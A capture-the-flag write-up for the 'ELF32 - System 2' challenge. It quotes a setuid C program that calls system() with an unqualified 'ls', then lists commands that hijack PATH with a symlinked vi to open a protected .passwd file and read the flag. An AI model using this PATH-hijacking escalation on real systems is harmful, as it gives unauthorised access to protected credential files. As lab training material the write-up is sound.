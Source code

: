 ## ELF32 - System 2

| Author | Level | Points |
| ------ | ----- | ------ |
| Lu33Y | Easy | 10 |


>Eat another one, just for fun !
>
>Source code :
>
>```c
>#include <stdlib.h>
>#include <stdio.h>
> 
>int main(){
>	system("ls -lA /challenge/app-script/ch12/.passwd");
>	return 0;
}
>```

#### Solution

First create folder `test` in `/tmp` and go to this

```
mkdir /tmp/test; cd /tmp/test
```

Create a link to `vi` with the name `ls`

```
ln -s `which vi` ls
```

Change `$PATH`

```
export PATH=".:$PATH"
```

Run file `ch12`

```
~/ch12
```

We can reverse string with this command and get the flag

```
:set arabic!
```